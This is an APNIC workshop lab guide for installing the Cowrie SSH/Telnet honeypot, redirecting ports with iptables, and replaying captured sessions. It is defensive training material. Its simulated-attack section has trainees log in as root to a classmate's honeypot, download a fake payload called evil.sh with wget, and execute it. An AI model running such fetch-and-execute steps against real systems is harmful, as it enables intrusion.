


## LAB: Honeypot

**Objective**: Understand the concept of honeypots, particularly installation and setup of Cowrie.

This lab has been designed for you to learn the basic concept of honeypots, by installing and setup of Cowrie Honeypot. The lab exercises are part of a workshop. 

Honeypots are cybersecurity mechanisms designed to mimic legitimate parts of a system, network, or digital environment to attract and entrap cybercriminals. They are used to lure attackers away from real assets, acting as decoys to study the tactics and techniques of adversaries. Honeypots provide valuable insights into potential security vulnerabilities and the behaviors of attackers.

Cowrie, it's a medium interaction SSH and Telnet honeypot designed to log brute force attacks and, most importantly, the entire shell interaction performed by the attacker. Cowrie is typically used to observe attacker behavior, collect malware samples, and understand common attack methodologies. 

For more detail about the APNIC HoneyNet project refer to - [https://www.apnic.net/community/security/skills-and-knowledge/#project](https://www.apnic.net/community/security/skills-and-knowledge/#project)

### Topology
The following will be the topology used for this lab.  Note that the IP addresses are examples only.  When working on the lab, use the actual IP addresses as indicated by the instructors.  For the purpose of this guide, the IP address of 192.168.30.X or 2001:db8:1::X will refer to your Virtual Machine (VM).

	[group1.apnictraining.net] [192.168.30.1]
	[group2.apnictraining.net] [192.168.30.2]
 	[group3.apnictraining.net] [192.168.30.3]
 	...................
 	[group30.apnictraining.net] [192.168.30.30]

* Username `apnic` and password `training`

### Lab Notes
* Confirm interface name:
  * On the VM, check the IP configuration to see the interface Name
  
			ip -br address show
			
  * In this guide the interface name is `eth0`. Depending on the version of Ubuntu the interface name may be `enp0s3` or something different. Where `eth0` is used in this guide replace it with your interface name.
* Virtual Machine (Container) details
  * Ubuntu 18.04 LTS/LXC
  * Hostname = groupXX.apnictraining.net
  * Domain name = apnictraining.net
  * IPv4 Address = 192.168.30.xx
  * IPv6 Address = 2001:db8:1::xx
  * xx = group ID as allocated by the instructor

## <a name="fenced-code-block">Install Cowrie</a>
1. Log into the server (SSH using the username and password from above), where **X** is the group number:

		ssh apnic@192.168.30.X

2. Update the list of Ubuntu repos to download resources from.
		
		sudo apt-get update

3. Cowrie requires Python3.7 or higher. Install Python3.7 and set as default python environment.

		sudo apt-get install -y python3.7	
		
	Confirm which version of python 3 is set as default
	
		python3 --version
		
	Add python 3.6 and python 3.7 to update-alternatives
	
		sudo update-alternatives --install /usr/bin/python3 python3 /usr/bin/python3.6 1
		
		sudo update-alternatives --install /usr/bin/python3 python3 /usr/bin/python3.7 2
		
	Update python 3 to point to python 3.7
	
		sudo update-alternatives --config python3
		
	Type `2` and hit enter to select python 3.7. 
	
	
	
	Confirm the default version of python3.
	
		python3 --version
		
4. Install dependencies.

		sudo apt-get install -y git iptables virtualenv python-virtualenv \
		 libssl-dev libffi-dev build-essential libpython3-dev python3-minimal \
		 authbind nano net-tools
		
5. Since we will be port-forwarding anything on the standard ssh and telnet ports to cowrie, we need to change the default ssh port of the server to something non-standard (use your favourite text editor).
           
 		sudo sed -i 's/\#Port 22/Port 2200/' /etc/ssh/sshd_config

	Confirm the Port number is 2200

		grep -in "Port 22" /etc/ssh/sshd_config

	

6. Restart the SSH service.

		sudo systemctl restart sshd.service

7. Check the status of SSH and confirm it is listening on port 2200.

		sudo systemctl status sshd.service
		
	

8. Open a new terminal (keep your old terminal open as a back up in case things go wrong) and ssh back into your server using the new port:

	    ssh apnic@192.168.30.X -p 2200
	    
9. Create a port forwarding rule to forward anything over standard ssh (22) and telnet (23) to Cowrie:

	Add a forwarding rule for Secure SHell (SSH)

    		sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222

	Add a forwarding rule for Telnet

    		sudo iptables -t nat -A PREROUTING -p tcp --dport 23 -j REDIRECT --to-port 2223
    	
	**NOTE**: since this is just for this lab, no need to save the rules persistently. Verify the rule by:
	
        	sudo iptables -t nat -L -n -v
    		
10. Create a Cowrie user account without a password.

		sudo adduser --disabled-password cowrie

			

## <a name="fenced-code-block">Install and configure  Cowrie</a>

1. Change to user cowrie.

		sudo su - cowrie
		
2. Install Cowrie.

		git clone http://github.com/cowrie/cowrie
		
3. Change to cowrie directory

		cd cowrie
		
4. Setup the Virtual Environment (make sure you are in the right working directory **home/cowrie/cowrie** using `pwd` )

		virtualenv --python=python3 cowrie-env
 		
5. Activate the Virtual environment and install the Python packages needed by Cowrie:

   		source cowrie-env/bin/activate

  	Update pip

		pip install --upgrade pip

	Install required dependencies

		pip install --upgrade -r requirements.txt

6. Find where telnet options are in the Cowrie configuration file, and replace the word false with true:

		sed -i '/\[telnet\]/, +3 s/false/true/g' etc/cowrie.cfg.dist

	| Component | Explanation |
	|-----------|-------------|
	| sed     | Stream editor for filtering and transforming text. |
	| -i      | Option for in-place editing, i.e., the original file is modified directly. |
	| [telnet]| Text to match. The square brackets are part of the text to find in the file. |
	| /       | Delimiter separating parts of the sed command. |
	| , +3    | Indicates a range: starting from the line where [telnet] is found to the next 3 lines. |
	| s       | Start of the substitution command in sed. |
	| false   | The text to find for substitution. |
	| true    | The replacement text. |
	| etc/cowrie.cfg.dist | Path of the file to be edited. |

	Confirm Telnet is set to **true**

		grep -in -A 3 "\[telnet" etc/cowrie.cfg.dist
    
8. Start Cowrie.   

		 bin/cowrie start
	
 	>[!Knowledge] If any warnings about **CryptographyDeprecationWarning** occur. These can be safely ignored, as the algorithms are used in Cowrie to support old attackers that use these deprecated algorithms.

	
		
10. Verify cowrie is running and listening on port **2222** and **2223**

		ss -nat

| Component | Explanation |
|-----------|-------------|
| ss      | A utility to investigate sockets. It is used to dump socket statistics and shows information similar to **netstat**. |
| -n      | This option tells **ss** to show numerical addresses instead of trying to determine symbolic host, port, or user names. |
| -a      | Displays all sockets, including both listening and non-listening (connected) sockets. |
| -t      | Restricts the output to only TCP sockets. |

		
**NOTE**: Do not close the terminal session to the server (the working directory should still be **/home/cowrie/cowrie**)
		
## <a name="fenced-code-block">Attack the Honeypot</a>
**NOTE: Open a new terminal window for this exercise**

1. ssh or telnet to a honeypot instance operated by the person sitting next to you (try with username root and any random password)

		ssh root@192.168.30.X -o UserKnownHostsFile=/dev/null

	NOTE: Type `yes` if asked about wanting to continue connecting

	>[!Hint] This will bypass the **Remote Host Identification Has Changed** check, as the SSH fingerprint would have changed for this IPv4 address.
		
2. Once logged in, issue the following commands:

	Download a script (fake payload)

		wget https://wiki.apnictraining.net/_media/evil.sh
	
	View the content of the script

		cat evil.sh

	Try to execute the script

		chmod +x evil.sh
		./evil.sh
		
3. You can try any linux command you want on the honeypot. When finished type in `exit` to close the ssh connection.

## <a name="fenced-code-block">Playback the Attack</a>

1. Identify the relevant information (ip address, URL, etc) from the logs in **var/log/cowrie/cowrie.log**

		less var/log/cowrie/cowrie.log

	Press `q` to exit the **less** command

3. List the captured sessions in **var/lib/cowrie/tty/** 

		ls var/lib/cowrie/tty/
4. Replay the logs and take note of the activities of any particular session:

		bin/playlog var/lib/cowrie/tty/[insert_log_file_name_here]

	Example
		
	**bin/playlog var/lib/cowrie/tty/fcf3004d8fc51aa573fbfc6dd375aa981087a38b2aa9b056c1b228dce8eb8a2f**

## <a name="fenced-code-block">If playlog doesnt work</a>
If an error occurs, this could be sometimes related to the installation of playlog. You will need to download the script from git.

1. Change into the directory to store the playlog script:

		cd /home/cowrie/cowrie/var/lib/cowrie

2. Download the python script called **playlog.py**

		wget https://raw.githubusercontent.com/cowrie/cowrie/master/src/cowrie/scripts/playlog.py

3. Make the script executable

		chmod +x playlog.py

4. Run the script to playback all the captured activity in the Cowrie honeypot

		./playlog.py tty/*

---
		

***END OF EXERCISE***

									
Version: 20231214
